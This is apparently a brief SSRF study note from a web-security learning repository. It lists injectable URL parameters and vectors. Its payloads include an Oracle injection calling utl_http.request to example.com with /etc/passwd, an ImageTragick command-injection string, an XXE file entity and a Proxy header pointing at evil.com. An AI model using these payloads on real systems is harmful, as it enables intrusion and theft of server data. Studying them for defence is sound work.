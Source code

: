 # SSRF
Server Side Request Forge  
Bypass the firewall and grope through the intranet  

![ssrf](https://github.com/shinmao/Web-Security-Learning/blob/master/SSRF/screenshot/SSRF.png)  
Find the vulnerable place > with Protocol > Apply to deeper attack > Bypass

# Find the vulnerable place
**Controllable** URL parameter：url, src, imgURL, share, wap, link  
share the content via URL  
translate the context with online translator  
load the pic with URL  
some api  
1. XXE(You can directly see in my XXE part)  
```php
<!ENTITY % file SYSTEM "file://url/xxx">
```
  
2. `file_get_contents($url)`(PHP)  
```php
$image = file_get_contents('http://self-ip');
```
[Day 20 - Stocking](https://www.ripstech.com/php-security-calendar-2017/#day-20)  
  
3. curl(PHP)  
in fact, from `curl -V` we can see the libcurl support many protocols  
  
4. Oracle UTL_HTTP  
```php
?id=1'||CTXSYS.DRITHSX.SN(user,substr(utl_http.request('http://example.com?download=/etc/passwd'),1,160))||'
```  
  
5. ImageTragick  
```php
...
fill 'url(https://example.com/";|ls "-la)'
...
```  
[ImageTragick](https://imagetragick.com/)  
CVE-2016-3718  
POC on Facebook  

6. Header HTTP proxy  
According to CGI, headers in the request would be replaced with env variables  
e.g. Host -> $HTTP_HOST, Proxy -> $HTTP_Proxy  
This is the vul  
```php
GET
...
Proxy: http://evil.com/
```  
hijack the http connection


# with Protocol  
![](https://farm2.staticflickr.com/1774/43295065584_6cfa758570_m.jpg)  

# Apply to deeper attack

# Bypass  
Bypass DNS limit  
Bypass ip limit

## Reference
* Orange Slides
